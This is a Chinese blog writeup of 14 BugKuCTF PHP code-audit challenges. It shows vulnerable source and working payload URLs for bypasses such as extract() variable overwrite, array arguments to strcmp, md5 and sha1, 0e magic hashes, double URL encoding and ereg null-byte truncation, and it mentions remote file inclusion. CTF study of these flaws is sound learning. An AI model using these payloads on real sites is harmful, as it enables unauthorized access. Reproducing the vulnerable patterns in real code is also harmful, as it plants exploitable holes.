

<!--yml
category: 未分类
date: 2022-04-26 14:35:35
-->

# CTF平台题库writeup（四）--BugKuCTF-代码审计（14题详解）_Hacking黑白红的博客-CSDN博客

> 来源：[https://blog.csdn.net/zsw15841822890/article/details/107121670/](https://blog.csdn.net/zsw15841822890/article/details/107121670/)

### 

### 1、extract变量覆盖

```
<?php
$flag='xxx';
extract($_GET);
if(isset($shiyan))
{
$content=trim(file_get_contents($flag));
if($shiyan==$content)
{
echo'flag{xxx}';
}
else
{
echo'Oh.no';
}
}
?>
```

知识点：

变量覆盖

file_get_contents():将整个文件读入一个字符串

trim（）去除字符串两侧的空格或者指定字符trim（'string'，'string you want to delete'）

$_GET:表示等一下提交变量时，URL 通过 get 的方式传参，传输的数据以数组的形式被封装在$_GET 中。

extract():从数组中将变量导入到当前的符号表。该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。

利用extract()函数的变量覆盖漏洞原理构造payload

漏洞产生原因：extract()函数当只有一个参数时，默认的第二参数是：EXTR_OVERWRITE，如果有变量发生冲突，则覆盖已有的变量。

思路：

代码审计需要满足两个条件：

```
1\. if(isset($shiyan))  == 》 TRUE

2. if(shiyan==shiyan==content)  == 》 TRUE
```

//利用extract()函数变量覆盖漏洞+php伪协议

//利用file_get_content()函数返回字符串+php弱类型（null == "string"  ==》 true

弱类型

```
http://123.206.87.240:9009/1.php?shiyan=

http://123.206.87.240:9009/1.php?shiyan=&flag=

http://123.206.87.240:9009/1.php?shiyan=&content=
```

伪协议(有点奇怪此题，用伪协议居然没有显示flag)

```
http://123.206.87.240:9009/1.php?shiyan=123&file=php://input

123
```

### 2、strcmp比较字符串

[http://123.206.87.240:9009/6.php](http://123.206.87.240:9009/6.php)

```
<?php
$flag = "flag{xxxxx}";
if (isset($_GET['a'])) {
if (strcmp($_GET['a'], $flag) == 0) //如果 str1 小于 str2 返回 < 0； 如果 str1大于 str2返回 > 0；如果两者相等，返回 0。
//比较两个字符串（区分大小写）
die('Flag: '.$flag);
else
print 'No';
}
?>
```

知识点：

die() 函数输出一条消息，并退出当前脚本。

strcmp(str1, str2)比较两个字符串大小，若是非字符串（例如数组）比较，则会出错。在5.3之前的php中，显示了报错的警告信息后，将return 0。0==0执行
payload:?a[]=1

### 3、urldecode二次编码绕过

```
http://123.206.87.240:9009/10.php

<?php
if(eregi("hackerDJ",$_GET[id])) {
echo("

not allowed!

");
exit();
}
$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
echo "

Access granted!

";
echo "

flag

";
}
?>
```

eregi()在一个字符串中搜索指定的模式的字符串，搜索不区分大小的正则匹配。
urldecode()解码以编码的URL字符串，但是$_GET[]会将参数解码一次。

若本题将“hackerDJ”进行两次URL编码，在eregi()中比较”hackerDJ”与$_GET[id]是否相同，$_GET会解码一次，从二次URL编码变成一次URL编码；urldecode()会将$_GET[id]从二次URL编码变成一次URL编码，赋值给$_GET[id]，当$_GET[id]与“hackerDJ”比较时，$_GET[id]再从一次URL编码解码，最后比较相等得到flag。

将“hackerDJ”进行两次URL编码。

Payload(hackerDJ 可以全部字母或者个别字母做二次urlEncode)

[http://123.206.87.240:9009/10.php?id=%25%36%38%25%36%31%25%36%33kerDJ](http://123.206.87.240:9009/10.php?id=%2568%2561%2563kerDJ)

或者

[http://123.206.87.240:9009/10.php?id=%25%36%38%25%36%31%25%36%33%25%36%62%25%36%35%25%37%32%25%34%34%25%34%61](http://123.206.87.240:9009/10.php?id=%2568%2561%2563%256b%2565%2572%2544%254a)

### 4、md5()函数

[http://123.206.87.240:9009/18.php](http://123.206.87.240:9009/18.php)

<

```
?php
error_reporting(0);
$flag = 'flag{test}';
if (isset($_GET['username']) and isset($_GET['password'])) {
if ($_GET['username'] == $_GET['password'])
print 'Your password can not be your username.';
else if (md5($_GET['username']) === md5($_GET['password']))
die('Flag: '.$flag);
else
print 'Invalid password';
}
?>
```

md5()计算字符串的MD5散列值。
md5()函数不能处理数组，使用数组绕过，md5(array)会返回null。

Payload:

[http://123.206.87.240:9009/18.php?username[]=1&password[]=2](http://123.206.87.240:9009/18.php?username%5B%5D=1&password%5B%5D=2)

### 5、数组返回NULL绕过

[http://123.206.87.240:9009/19.php](http://123.206.87.240:9009/19.php)

```
<?php
$flag = "flag";

if (isset ($_GET['password'])) {
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
echo 'You password must be alphanumeric';
else if (strpos ($_GET['password'], '--') !== FALSE)
die('Flag: ' . $flag);
else
echo 'Invalid password';
}
?>
```

strpos(string, find[, start])查找字符串在另一字符串中第一次出现的位置。

ereg()正则匹配，需使password中只含有英文字母和数字，又因为strpos()需要匹配“–”才能得到flag，可以使用数组绕过ereg()和strpos()。

ereg()只能处理字符，而password是数组，所以返回的是null，三个等号的时候不会进行类型转换。所以null!==false。

strpos()的参数同样不能够是数组，所以返回的依旧是null，null!==false也是正确。

payload:?password[]=1

http://123.206.87.240:9009/19.php?password[]=1

思路二：ereg()可以进行%00截断，绕过正则匹配。

payload:?password=1%00--

[http://123.206.87.240:9009/19.php?password=jjjk%00--](http://123.206.87.240:9009/19.php?password=jjjk%00--)

### 6、弱类型整数大小比较绕过

[http://123.206.87.240:9009/22.php](http://123.206.87.240:9009/22.php)

```
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag; 
```

is_numeric(var)检测变量是否为数字或数字字符串，是则返回true，否则返回false。

is_numeric()对于空字符%00，无论%00放在前面还是后面都可以判断为非数值，而空格%20只能放在数值后面，实质上都是弱类型转换。

payload1:?password=1337%00

payload2:?password=1337%20

payload3:?password=1337a

### 7、sha()函数比较绕过

```
<?php
$flag = "flag";
if (isset($_GET['name']) and isset($_GET['password']))
{
var_dump($_GET['name']);
echo "
";
var_dump($_GET['password']);
var_dump(sha1($_GET['name']));
var_dump(sha1($_GET['password']));
if ($_GET['name'] == $_GET['password'])
echo '

Your password can not be your name!';
else if (sha1($_GET['name']) === sha1($_GET['password']))
die('Flag: '.$flag);
else
echo '

Invalid password.
}
else
echo '

Login first!;?>

同md5()一样，sha1()函数也无法处理数组，因此可以构造数组绕过。

http://123.206.87.240:9009/7.php?password[]=1&name[]=2

array(1) { [0]=> string(1) "2" }
array(1) { [0]=> string(1) "1" } NULL NULL Flag: flag{bugku--daimasj-a2}

8、md5加密相等绕过
http://123.206.87.240:9009/13.php

<?php
$md51 = md5('QNKCDZO');
$a = @$_GET['a'];
$md52 = @md5($a);
if(isset($a)){
if ($a != 'QNKCDZO' && $md51 == $md52) {
echo "flag{*}";
} else {
echo "false!!!";
}}
else{echo "please input a";}
?>
```

md5生成的以“0e”开头的哈希值都解释为0，所以PHP在判断时会认为相同

PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以“0E”开头的哈希值都解释为0，

如果两个不同的值经过哈希以后，都是0E开头，那么PHP将会认为他们相同

。
这里提供一个
s878926199a

http://123.206.87.240:9009/13.php?a=s155964671a

举例：md5后以0e开头的字符串

```
240610708

0e462097431906509019562988736854

QNKCDZO

0e830400451993494058024219903391

s878926199a

0e545993274517709034328855841020 

s155964671a

0e342768416822451524974117254469

s214587387a

0e848240448830537924465865611904

s214587387a

0e848240448830537924465865611904

s878926199a

0e545993274517709034328855841020
```

### 9、十六进制与数字比较

[http://123.206.87.240:9009/20.php](http://123.206.87.240:9009/20.php)

```
<?php
error_reporting(0);
function noother_says_correct($temp)
{
$flag = 'flag{test}';
$one = ord('1'); //ord — 返回字符的 ASCII 码值  
$nine = ord('9'); //ord — 返回字符的 ASCII 码值
$number = '3735929054';
// Check all the input characters!
for ($i = 0; $i < strlen($number); $i++)
{
// Disallow all the digits!
$digit = ord($temp{$i});
if ( ($digit >= $one) && ($digit <= $nine) )
{
// Aha, digit not allowed!
return "flase";
}
}
if($number == $temp)
return $flag;
}
$temp = $_GET['password'];
echo noother_says_correct($temp);
?>
```

ord()返回字符串中首个字符的ASCII值。
题目中会要求输入的password中不能有0~9数字，并且还需要判断$number==$_GET[password]。所以将$number=3735929054转换为16进制“deadc0de”，再在前面加上0x表示16进制。

[http://123.206.87.240:9009/20.php?password=0xdeadc0de](http://123.206.87.240:9009/20.php?password=0xdeadc0de)

### 10、变量覆盖（地址访问不了）

[http://120.24.86.145:9009/bianliang/](http://120.24.86.145:9009/bianliang/)

### 11、ereg正则%00截断

[http://123.206.87.240:9009/5.php](http://123.206.87.240:9009/5.php)

```
<?php
$flag = "xxx";
if (isset ($_GET['password']))
{
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
{
echo '

You password must be alphanumeric

';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
{
if (strpos ($_GET['password'], '-') !== FALSE) //strpos — 查找字符串首次出现的位置
{
die('Flag: ' . $flag);
}
else
{
echo('

- have not been found

');
}
}
else
{
echo '

Invalid password

';
}
}
?>
```

题目通过ereg()函数判断password中是否只含有字母或数字，进而限制password长度小于8，并且值小于9999999；在此前提下用strpos()函数搜索password中是否含有“-”，若是则输出flag。

解法一，利用数组绕过strpos()函数。strpos()数组 null!=false, strlen（）数组长度为0

payload:?password[]=9999999999

解法二，利用ereg()%00截断漏洞，在用科学记数法来构造1e9满足strlen($_GET[‘password’]) < 8 && $_GET[‘password’]> 9999999这个条件，再加上“-”来满足strpos()的条件。

payload:?password=1e9%00*-*

### 12、strpos数组绕过

[http://123.206.87.240:9009/15.php](http://123.206.87.240:9009/15.php)

```
<?php
$flag = "flag";
if (isset ($_GET['ctf'])) {
if (@ereg ("^[1-9]+$", $_GET['ctf']) === FALSE)
echo '必须输入数字才行';
else if (strpos ($_GET['ctf'], '#biubiubiu') !== FALSE)
die('Flag: '.$flag);
else
echo '骚年，继续努力吧啊~';
}
?>
```

构造数组绕过，并且值含有数字。
payload:?ctf[]=1

?ctf=12333%00#biubiubiu 此种方式不可，因为ereg（）存在%00截断，而strpos()则不存在

### 13、数字验证正则绕过

[http://123.206.87.240:9009/21.php](http://123.206.87.240:9009/21.php)

```
<?php
error_reporting(0);
$flag = 'flag{test}';
if ("POST" == $_SERVER['REQUEST_METHOD'])
{
$password = $_POST['password'];
if (0 >= preg_match('/^[[:graph:]]{12,}$/', $password)) //preg_match — 执行一个正则表达式匹配
{
echo 'flag';
exit;
}
while (TRUE)
{
$reg = '/([[:punct:]]+|[[:digit:]]+|[[:upper:]]+|[[:lower:]]+)/';
if (6 > preg_match_all($reg, $password, $arr))
break;
$c = 0;
$ps = array('punct', 'digit', 'upper', 'lower'); //[[:punct:]] 任何标点符号 [[:digit:]] 任何数字 [[:upper:]] 任何大写字母 [[:lower:]] 任何小写字母
foreach ($ps as $pt)
{
if (preg_match("/[[:$pt:]]+/", $password))
$c += 1;
}
if ($c < 3) break;
//>=3，必须包含四种类型三种与三种以上
if ("42" == $password) echo $flag;
else echo 'Wrong password';
exit;
}
}
?>
```

直接POST一个password就可以，并且小于12个字符。

payload:

http://123.206.87.240:9009/21.php

POST:password=1

### 14、简单的waf

[http://120.24.86.145:9010/](http://120.24.86.145:9010/)        

**服务器坏了，网上找的wp**

要求传入abcde，a中不能包含php，因此a不能用php://input来为其赋值了，但是可以通过远程文件包含来为其赋值，即在自己的服务器上写一个txt文件，e可以用php://input来赋值，然后就会看到返回hello admin



但是 c和d不知道有什么作用，看到c中不能包含flag，d不能包含base64，于是猜测题目可能存在flag.php之类的，需要通过d去读取？尝试访问flag.php看到flag on my head，访问flag，发现会下载一个文件，里面说Please call admin to get flag，令c=flag.php会触发他的waf，但是令c=Flag.php可以绕过，但是也没有返回其他的东西，摇头.gif不知道怎么操作了，希望有大佬会的话带带我Orz